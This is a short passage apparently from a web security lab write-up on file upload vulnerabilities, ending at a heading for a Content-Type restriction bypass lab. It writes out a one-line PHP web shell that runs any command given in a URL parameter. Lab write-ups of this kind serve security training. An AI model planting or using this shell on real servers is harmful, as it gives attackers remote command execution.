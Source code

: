 ==>OKAY.

- Now lets write a php file with content below:

```bash
<?php echo system($_GET['x']); ?>
```

![alt text](./img/lab1-6.png)

![alt text](./img/lab1-7.png)

## Lab: Web shell upload via Content-Type restriction bypass
